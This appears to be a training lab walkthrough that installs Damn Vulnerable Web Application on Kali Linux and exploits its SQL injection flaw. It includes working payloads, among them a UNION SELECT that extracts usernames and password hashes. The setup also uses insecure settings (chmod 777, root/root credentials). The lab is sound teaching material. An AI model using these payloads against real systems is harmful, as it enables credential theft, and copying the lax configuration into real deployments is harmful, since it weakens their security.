










## 📌 Overview

This walkthrough demonstrates the full process of setting up and exploiting a SQL Injection vulnerability in **Damn Vulnerable Web Application** on Kali Linux, resulting in successful extraction of user credentials from the database.

---

## 🛠 Tools Used

| Tool            | Purpose                 |
| --------------- | ----------------------- |
| Kali Linux      | Operating environment   |
| Apache2         | Web server              |
| MySQL (MariaDB) | Database backend        |
| Web Browser     | Application interaction |

---

## ⚙️ Step 1 — Start Services (Kali Linux)

```bash
sudo service apache2 start
sudo service mysql start
```

✔ Web server and database initialized

📸 **Evidence:**



---

## 📦 Step 2 — Install DVWA

```bash
git clone https://github.com/digininja/DVWA.git
sudo mv DVWA /var/www/html/
```

✔ DVWA deployed to web directory

📸 **Evidence:**



---

## ⚙️ Step 3 — Configure DVWA

```bash
cd /var/www/html/DVWA/config
sudo cp config.inc.php.dist config.inc.php
sudo chmod -R 777 /var/www/html/DVWA
```

✔ Configuration file prepared
✔ Permissions applied

📸 **Evidence:**



---

## 🧪 Step 4 — Create Database

```bash
sudo mysql
```

```sql
CREATE DATABASE dvwa;
```

✔ Database created successfully

📸 **Evidence:**


---

## 🔧 Step 5 — Update Database Configuration

```bash
nano /var/www/html/DVWA/config/config.inc.php
```

```php
$_DVWA['db_user'] = 'root';
$_DVWA['db_password'] = 'root';
```

✔ Database connection configured

📸 **Evidence:**



---

## 🔄 Step 6 — Restart Services

```bash
sudo service apache2 restart
sudo service mysql restart
```

✔ Changes applied successfully

📸 **Evidence:**



---

## 🌐 Step 7 — Access DVWA

* Opened:

  ```
  http://localhost/DVWA
  ```
* Logged in:

  ```
  admin / password
  ```
* Set security level to:

  ```
  LOW
  ```

📸 **Evidence:**



---


## 💣 Step 8 — SQL Injection

### Payload

```sql
1' OR '1'='1
```

### Result

* Multiple users returned
  ✔ Injection successful

📸 **Evidence:**



---

## 🔓 Step 9 — Data Extraction

### Payload

```sql
1' UNION SELECT user, password FROM users #
```

### Result

* Extracted usernames
* Extracted password hashes

✔ Full database data exposure achieved

📸 **Evidence:**



---

## 📌 Conclusion

This walkthrough demonstrates a complete attack chain:

1. Environment setup
2. Application access
3. SQL Injection exploitation
4. Data extraction

Result: **Full database compromise via SQL Injection**

---

This work is part of FuzzRaiders' structured hands-on training and research program, where every lab, project, and technical study is formally documented, reviewed, and validated to ensure real-world applicability and methodological rigor.

Happy hacking 🚀

---


